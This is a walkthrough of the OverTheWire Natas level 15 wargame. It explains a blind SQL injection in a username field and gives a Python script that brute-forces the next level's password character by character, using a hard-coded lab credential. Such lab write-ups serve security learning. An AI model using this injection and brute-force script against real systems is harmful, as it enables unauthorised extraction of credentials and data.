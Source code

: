 This one looks tricky because the only answers we'll get from this page are :
- "This user doesn't exist"
- "This user exists". 

However, there is an SQL injection in the **username** field, but it's a blind one. We only get true/false answers. We just nee to find a way to forge a query that will answer to questions like *"Does the password for natas16 starts with 'a' ?"* and get the results.

Here is my solution :

```sql
-- Original request
SELECT * from users where username=""

-- SQLi ('x' is a variable)
SELECT * from users where username="natas16" and password like binary "x%"
```

Here we just check the **natas16** username as it exists in the database and add some statements by passing a double-quote after the username. 

The statements `LIKE BINARY "x%"` means that we want to check if the password start with **x** and we make that query case sensitive by using the **BINARY** statement. 

Now, if it does start with "x", we'll get a "This user exists" in the page, if it doesn't we'll get a "This user doesn't exist". Easy, right ?

Now, as it will take forever to do that manually, we'll need a script !

```python
import requests
import sys
from string import digits, ascii_lowercase, ascii_uppercase

url = "http://natas15.natas.labs.overthewire.org/"
charset = ascii_lowercase + ascii_uppercase + digits
sqli = 'natas16" AND password LIKE BINARY "'

s = requests.Session()
s.auth = ('natas15', 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J')

password = ""
# We assume that the password is 32 chars 
while len(password) < 32:
    for char in charset:
        r = s.post('http://natas15.natas.labs.overthewire.org/', data={'username':sqli + password + char + "%"})
        if "This user exists" in r.text:
            sys.stdout.write(char)
            sys.stdout.flush()
            password += char
            break
```

Grab a coffee while the script is running and when you get back you should have your answer...
